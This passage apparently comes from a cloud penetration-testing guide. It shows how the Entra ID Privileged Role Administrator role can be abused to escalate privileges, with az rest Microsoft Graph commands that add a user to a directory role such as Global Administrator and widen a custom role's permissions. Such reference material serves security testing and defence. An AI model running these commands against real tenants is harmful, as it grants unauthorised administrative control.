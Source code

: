 ## Roles

### Role: Privileged Role Administrator <a href="#c9d4cde0-7dcc-45d5-aa95-59d198ae84b2" id="c9d4cde0-7dcc-45d5-aa95-59d198ae84b2"></a>

This role contains the necessary granular permissions to be able to assign roles to principals and to give more permissions to roles. Both actions could be abused to escalate privileges.

* Assign role to a user:

```bash
# List enabled built-in roles
az rest --method GET \
  --uri "https://graph.microsoft.com/v1.0/directoryRoles"
  
# Give role (Global Administrator?) to a user
roleId="<roleId>"
userId="<userId>"
az rest --method POST \
  --uri "https://graph.microsoft.com/v1.0/directoryRoles/$roleId/members/\$ref" \
  --headers "Content-Type=application/json" \
  --body "{
    \"@odata.id\": \"https://graph.microsoft.com/v1.0/directoryObjects/$userId\"
  }"
```

* Add more permissions to a role:

```bash
# List only custom roles
az rest --method GET \
  --uri "https://graph.microsoft.com/v1.0/roleManagement/directory/roleDefinitions" | jq '.value[] | select(.isBuiltIn == false)'

# Change the permissions of a custom role
az rest --method PATCH \
  --uri "https://graph.microsoft.com/v1.0/roleManagement/directory/roleDefinitions/<role-id>" \ 
  --headers "Content-Type=application/json" \
  --body '{
    "description": "Update basic properties of application registrations",
    "rolePermissions": [
      {
        "allowedResourceActions": [
          "microsoft.directory/applications/credentials/update"
        ]
      }
    ]
  }'
```

## Applications
